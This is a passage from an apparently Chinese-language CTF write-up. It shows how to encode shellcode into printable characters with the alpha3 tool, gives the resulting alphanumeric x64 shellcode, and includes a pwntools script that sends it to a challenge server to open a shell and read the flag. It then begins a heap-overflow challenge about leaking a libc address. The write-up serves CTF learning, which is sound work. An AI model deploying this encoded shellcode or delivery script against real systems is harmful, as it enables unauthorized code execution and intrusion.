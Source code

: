 
## **解题思路**
### 1. 准备工具和环境
- 下载并安装国人修改版 [alpha](https://github.com/TaQini/alpha3) （这个已经编译好了），用于将 Shellcode 转换为可见字符 Shellcode。
  
  ```bash
  git clone https://github.com/TaQini/alpha3.git
  cd alpha3
  ```

### 2. 生成可见字符 Shellcode
- 下载的修改版alpha中已经有shellcode了，注意这个脚本要用python2跑
  ```bash
  python2 ./ALPHA3.py x64 ascii mixedcase rax --input="shellcode"
  
  Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
  ```

- 输出即为可见字符 Shellcode。

### 3. 提交可见字符 Shellcode
- 将输出的内容复制到脚本中作为payload提交。
- 脚本执行后，程序将运行 Shellcode，直接cat /flag即可。

## 解题脚本
```python
from pwn import *

host = '10.12.153.73'
port = 10105
p = remote(host, port)

payload = b"Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"

p.sendlineafter(b">", payload)
p.interactive()

# 做这一题时平台爆炸了
# 我拿到的flag：flag{TEST_FLAG}
```

# 第40题、`堆溢出`分析及解决方案
## **解题思路**

### **1. 泄露 `libc` 地址**
#### **目标：**
- 利用 `unsorted bin` 的堆块特性泄露 `libc` 中 `main_arena` 的地址，进而计算 `libc_base` 和 shellcode 的位置。
